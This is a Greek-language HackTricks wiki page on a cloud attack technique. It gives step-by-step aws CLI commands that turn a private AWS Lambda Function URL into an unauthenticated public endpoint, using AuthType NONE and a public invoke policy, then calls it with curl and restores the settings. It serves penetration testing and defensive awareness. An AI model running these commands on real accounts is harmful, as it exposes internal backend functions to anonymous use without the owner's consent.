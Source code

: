 # AWS - Lambda Function URL Δημόσια Έκθεση (AuthType NONE + Public Invoke Policy)

{{#include ../../../../banners/hacktricks-training.md}}

Μετατρέψτε ένα ιδιωτικό Lambda Function URL σε δημόσιο, μη αυθεντικοποιημένο endpoint αλλάζοντας το Function URL AuthType σε NONE και επισυνάπτοντας μια resource-based policy που χορηγεί lambda:InvokeFunctionUrl σε όλους. Αυτό επιτρέπει ανώνυμη κλήση εσωτερικών functions και μπορεί να εκθέσει ευαίσθητες λειτουργίες backend.

## Κατάχρηση

- Προαπαιτούμενα: lambda:UpdateFunctionUrlConfig, lambda:CreateFunctionUrlConfig, lambda:AddPermission
- Περιοχή: us-east-1

### Βήματα
1) Βεβαιωθείτε ότι η function έχει Function URL (προεπιλογή AWS_IAM):
```
aws lambda create-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```

2) Αλλάξτε το URL σε δημόσιο (AuthType NONE):
```
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type NONE
```

3) Προσθέστε μια δήλωση resource-based policy για να επιτρέψετε μη αυθεντικοποιημένους principals:
```
aws lambda add-permission --function-name $TARGET_FN --statement-id ht-public-url --action lambda:InvokeFunctionUrl --principal "*" --function-url-auth-type NONE
```

4) Ανακτήστε το URL και καλέστε χωρίς credentials:
```
URL=$(aws lambda get-function-url-config --function-name $TARGET_FN --query FunctionUrl --output text)
curl -sS "$URL"
```

### Επιπτώσεις
- Η Lambda function γίνεται ανώνυμα προσβάσιμη μέσω του διαδικτύου.

### Παράδειγμα εξόδου (μη αυθεντικοποιημένο 200)
```
HTTP 200
https://e3d4wrnzem45bhdq2mfm3qgde40rjjfc.lambda-url.us-east-1.on.aws/
{"message": "HackTricks demo: public Function URL reached", "timestamp": 1759761979, "env_hint": "us-east-1", "event_keys": ["version", "routeKey", "rawPath", "rawQueryString", "headers", "requestContext", "isBase64Encoded"]}
```
### Καθαρισμός
```
aws lambda remove-permission --function-name $TARGET_FN --statement-id ht-public-url || true
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```
{{#include ../../../../banners/hacktricks-training.md}}

